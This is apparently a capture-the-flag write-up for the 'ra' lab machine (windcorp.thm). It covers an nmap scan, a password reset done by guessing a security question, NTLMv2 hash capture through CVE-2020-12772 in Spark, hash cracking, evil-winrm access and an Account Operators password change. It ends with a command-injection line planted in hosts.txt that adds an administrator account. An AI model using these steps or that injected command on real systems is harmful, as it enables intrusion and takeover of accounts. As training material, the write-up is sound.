


# ra

## nmap

PORT      STATE SERVICE             VERSION                                                                                                                           
53/tcp    open  domain?                                                                                                                                               
80/tcp    open  http                Microsoft IIS httpd 10.0                                                                                                          
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2020-08-10 07:59:02Z)                                                                    
135/tcp   open  msrpc               Microsoft Windows RPC                                                                                                             
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn                                                                                                     
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)                                   
443/tcp   open  ssl/http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                           
445/tcp   open  microsoft-ds?                                                                                                                                         
464/tcp   open  kpasswd5?                                                                                                                                             
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0                                                                                               
636/tcp   open  ldapssl?                                                                                                                                              
2179/tcp  open  vmrdp?                                                                                                                                                
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)                                   
3269/tcp  open  globalcatLDAPssl?                                                                                                                                     
3389/tcp  open  ms-wbt-server       Microsoft Terminal Services                                                                                                       
5222/tcp  open  jabber                                                                                                                                                
5223/tcp  open  ssl/hpvirtgrp?                                                                                                                                        
5229/tcp  open  jaxflow?                                                                                                                                              
5262/tcp  open  jabber                                                                                                                                                
5263/tcp  open  ssl/unknown                                                                                                                                           
5269/tcp  open  xmpp                Wildfire XMPP Client                                                                                                              
5270/tcp  open  ssl/xmp?                 
5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later                                                                            
5276/tcp  open  ssl/unknown              
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                           
7070/tcp  open  http                Jetty 9.4.18.v20190429                         
7443/tcp  open  ssl/http            Jetty 9.4.18.v20190429                         
7777/tcp  open  socks5              (No authentication; connection failed)                                                                                            
9090/tcp  open  zeus-admin?              
9091/tcp  open  ssl/xmltec-xmlmail?                                                
9389/tcp  open  mc-nmf              .NET Message Framing                           
49669/tcp open  msrpc               Microsoft Windows RPC                          
49674/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0                                                                                               
49675/tcp open  msrpc               Microsoft Windows RPC                          
49676/tcp open  msrpc               Microsoft Windows RPC                          
49745/tcp open  msrpc               Microsoft Windows RPC  

## httpenum


on enumerating site we see a reset password option


one of your favourite pets name is also a question


we see a person with her dog maybe we can reset her password.

1. we need her username
2. we need dogs name


upon further viewing image in new tab we see image name as lilyle and sparky

1. username: lilyle
2. petsname: sparky


got new password for lilyle


### creds

lilyle	:	ChangeMe#1234

## smb

### verification


there is green color plus sign means we can log into smb but cannot execute remote sessions

### smbclient


intersting share is **shared**

lets enumerate the share



- found 1st flag 
- spark applications its a client messaging application


<u>important</u> in case of time_out_error put timeout option to 3600 so that we can download file

## spark


- installed spark client
- logged in with lilyle credentials

### vulnerability

CVE-2020-12772


[GITHUB](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md)

### info

- this vulnerability allows us to get hashes of users 
- when they click on the link where responder is running

### ntlmv2


got a ntlmv2 hash lets crack it to see what could be the password


## hashcat


### creds

buse : uzunLM+3131


## evil-winrm


credentials are valid 


lets try to login with evil-winrm


we got a shell on the box


### enumeration



on enumerating we found out we are part of account operators group

- we have ability to change passwords.
- only of non-administrative user

### scripts

found a scripts folder on root directory


the script is taking the contents of hosts.txt from brittanycr and executing it.


### creds

we can use our privilege of account operators group to change the password of brittanycr on this domain

```powershell
net user brittanycr Password1234! /domain
```


brittanycr	:	Password1234!


## post

we cannot get remote shell maybe brittanycr is not part of remote management group


but we can get into smb lets change hosts.txt content to add us as new user in administrator group


### smbclient

````powershell
; net user manish Password; net localgroup administrators manish /add
````


now we are admins


